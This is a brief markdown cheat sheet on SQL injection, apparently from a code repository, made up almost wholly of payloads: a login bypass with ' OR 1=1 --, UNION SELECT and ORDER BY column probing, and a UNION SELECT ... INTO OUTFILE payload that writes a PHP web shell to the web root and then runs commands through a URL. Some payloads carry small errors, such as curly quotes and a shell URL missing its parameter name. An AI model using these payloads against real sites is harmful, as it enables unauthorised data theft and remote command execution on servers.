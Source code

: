 # SQL Injection

* Cause Error on the Web Application by input quote '

```text
SELECT * FROM users WHERE username = ''' AND password = ''
```

* Data Exfiltration by input ' OR 1=1 --

```text
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

* Gaining Shell

First check the number of column with NULL or 1

```text
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```text
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page

```text
http://yourIPaddress/cmd.php?=[command]
```

## SQL Injection Basic Techniques

Check number of columns by order by

```text
' ORDER BY 1;#
' ORDER BY 2;#
' ORDER BY 3;#
```


